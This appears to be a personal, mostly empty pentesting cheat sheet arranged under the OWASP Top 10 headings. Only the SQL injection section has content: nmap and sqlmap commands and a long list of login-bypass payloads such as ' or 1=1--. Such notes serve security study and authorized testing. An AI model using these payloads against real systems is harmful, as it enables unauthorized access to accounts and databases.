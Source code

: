 # [OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/index.html)

# [OWASP](#owasp)
  - [Injection](#injection)
  - [Broken Authentication](#broken-authentication)
  - [Sensitive Data Exposure](#sensitive-data-exposure)
  - [XML External Entity](#xml-external-entity)
  - [Broken Access Control](#broken-access-control)
  - [Security Misconfiguration](#security-misconfiguration)
  - [Cross-site Scripting](#cross-site-scripting)
  - [Insecure Deserialization](#insecure-deserialization)
  - [Components with Known Vulnerabilities](#components-with-known-vulnerabilities)
  - [Insufficent Logging & Monitoring](#insufficent-logging-and-monitoring)

## OWASP

### Injection

[SQL INJECTION - PORTSWINGER](https://portswigger.net/web-security/sql-injection)

- Enum using nmap
  >
  > nmap -sV --script=http-sql-injection <target>
  >
- Using jsql
- Using sqlmap with login-page
- Capture the request using burp suite, and save the request in a file.
  >
  > sqlmap -r request.txt
  >
- Crawl a page to find sql-injection.
  >
  > sqlmap -u http://example.com --crawl=1
  >
- Login bypass
  >
  > ‘or 1=1- -
  >
  >‘ or ‘1’=1
  >
  >‘ or ‘1’=1 - -
  >
  >‘–
  >
  >' or '1'='1
  >
  >-'
  >
  >' '
  >
  >'&'
  >
  >'^'
  >
  >'*'
  >
  >' or ''-'
  >
  >' or '' '
  >
  >' or ''&'
  >
  >' or ''^'`
  >
  >`’ or ‘‘*’
  >
  >"-"
  >
  >" "
  >
  >"&"
  >
  >"^"
  >
  >"*"
  >
  >" or ""-"
  >
  >" or "" "
  >
  >" or ""&"
  >
  >" or ""^"
  >
  >" or ""*"
  >
  >or true--
  >
  >" or true--
  >
  >' or true--
  >
  >") or true--
  >
  >') or true--
  >
  >' or 'x'='x
  >
  >') or ('x')=('x
  >
  >')) or (('x'))=(('x
  >
  >" or "x"="x
  >
  >") or ("x")=("x
  >
  >")) or (("x"))=(("x
  >
- known Username
  >
  >admin’ - -
  >
  >admin’) - -
  >
- Using error-bases DB enumeration
  >
  >Add the tick '
  >
  >Enumerate columns
  >
Using order by
  [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)

### Broken Authentication

### Sensitive Data Exposure

### XML External Entity

### Broken Access Control

### Security Misconfiguration

### Cross-site Scripting

### Insecure Deserialization

### Components with Known Vulnerabilities

### Insufficent Logging & Monitoring
